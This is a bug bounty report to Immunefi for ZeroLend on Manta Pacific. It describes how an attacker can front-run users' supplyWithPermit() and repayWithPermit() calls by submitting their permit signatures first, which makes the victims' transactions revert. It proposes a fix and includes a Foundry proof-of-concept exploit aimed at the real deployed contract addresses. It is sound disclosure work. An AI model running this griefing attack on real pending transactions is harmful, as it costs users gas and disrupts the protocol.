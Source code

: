 
# Attacker can invalidate users `supplyWithPermit()` and `repayWithPermit()` transactions

Submitted on Sat Mar 02 2024 06:59:17 GMT-0400 (Atlantic Standard Time) by @Norah for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28938

Report type: Smart Contract

Report severity: Medium

Target: https://pacific-explorer.manta.network/address/0x8676e39B5D2f0d6E0d78a4208a0cCBc50504972e

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
- Where:
    -  [supplyWithPermit()]
    -  [repayWithPermit()]
    - (https://pacific-explorer.manta.network/address/0x8676e39B5D2f0d6E0d78a4208a0cCBc50504972e?tab=contract)
- Expected behavior:
    - The `supplyWithPermit()`  and `repayWithPermit()` functions utilises the permit function so that approve and pull operations can happen in a single transaction instead of two consecutive transactions.

## Vulnerability Details
- Attack:
    - `ERC20Permit` uses the nonces mapping for replay protection. Once a signature is verified and approved, the nonce increases, invalidating the same signature being replayed.
    - `supplyWithPermit()` expects the holder to sign their tokens and provide the signature in function parameter.
    - When a `supplyWithPermit()` transaction is in the mempool, an attacker can take this signature, call the `permit` function on the token themselves.
    - Since this is a valid signature, the token accepts it and increases the nonce.
    - As a result victim transaction will revert, whenever it gets mined becuase the nonce has been already use.
    - Check POC for more detail.

## Impact Details
 - Attacker can invalidate users `supplyWithPermit()` and `repayWithPermit()` transactions.
- While Attacker does not profit from this, it harms users (gas fee and opportunity cost) and protocols reputation.

## Recommendation
- In `repayWithPermit`  and `supplyWithPermit` function, check if it has the approval it needs. If not, then only submit the permit signature.

```
if (IERC20(address(asset)).allowance(msg.sender,address(this)) < amount) {
           IERC20WithPermit(asset).permit(msg.sender, address(this), amount, deadline, permitV, permitR, permitS);
        }
```
- Given the fix is simple, I would suggest to implement it as there is also possibility that sophisticated attacker might uses this to delay users `repay()` transaction and gain advantage.

## References
Add any relevant links to documentation or code
 
        
## Proof of concept
## Proof of Concept

- Following is POCs demonstrating the attack vector on Manta-Pacific fork in foundry..
 - To recreate please enter your RPC, and then run "forge test"

```

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test,console2} from "forge-std/Test.sol";
interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);

    function permit(
    address owner,
    address spender,
    uint256 value,
    uint256 deadline,
    uint8 v,
    bytes32 r,
    bytes32 s) external;

    function DOMAIN_SEPARATOR() external view returns(bytes32);
    function nonces(address) external view returns(uint256);
}

interface IPool {

  function supplyWithPermit(
    address asset,
    uint256 amount,
    address onBehalfOf,
    uint16 referralCode,
    uint256 deadline,
    uint8 permitV,
    bytes32 permitR,
    bytes32 permitS
  ) external;

}

contract GreifingAttack is Test {

    //RPC URL
    string RPC_URL = ""; //Enter your RPC here

    IPool Pool = IPool(0x2f9bB73a8e98793e26Cb2F6C4ad037BDf1C6B269);
    IERC20 Asset  = IERC20(0x95CeF13441Be50d20cA4558CC0a27B601aC544E5);

    uint256 constant VICTIM_PRIVATE_KEY = 0xCCCC;
    address victim = vm.addr(VICTIM_PRIVATE_KEY);

    bytes32 private constant PERMIT_TYPEHASH = keccak256("Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)");

    function setUp() public {

        uint256 ForkId = vm.createFork(RPC_URL);
        vm.selectFork(ForkId);

        deal(address(Asset), victim, 1000 ether);
    }

    function testPermitExploit() public {

         vm.startPrank(victim);

        //the happy path
        //victim adds liquidity with their sign using permit functionality

        uint amount = 1000 ether;
        bytes32 domainSeparator = Asset.DOMAIN_SEPARATOR();

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(
            VICTIM_PRIVATE_KEY,
            keccak256(
                abi.encodePacked(
                    "\x19\x01",
                    domainSeparator,
                    keccak256(
                        abi.encode(
                            PERMIT_TYPEHASH,
                            victim,
                            address(Pool),
                            amount,
                            Asset.nonces(victim),
                            block.timestamp
                        )
                    )
                )
            )
        );

        uint256 snapshot = vm.snapshot();

        // the victim calls the supplywithPermit function
        // with the signed permit and it succeeds as expected
        Pool.supplyWithPermit(address(Asset),amount,victim,0,block.timestamp,v,r,s);

        vm.revertTo(snapshot);

        //The griefing attack

        //Now, Before the victim's transaction gets accepted
        //the attacker takes the signature and submits it themselves
        uint256 nonceBefore = Asset.nonces(victim);
        Asset.permit(victim, address(Pool), amount, block.timestamp, v, r, s);

        //this ends up increasing the victim nonce
        assertEq(Asset.nonces(victim), nonceBefore + 1);

        //now when victim's transaction will be reverted,
        //because the nonce is already used
        vm.startPrank(victim);
        vm.expectRevert("ERC20Permit: invalid signature");
        Pool.supplyWithPermit(address(Asset),amount,victim,0,block.timestamp,v,r,s);
        vm.stopPrank();
    }

}
        

```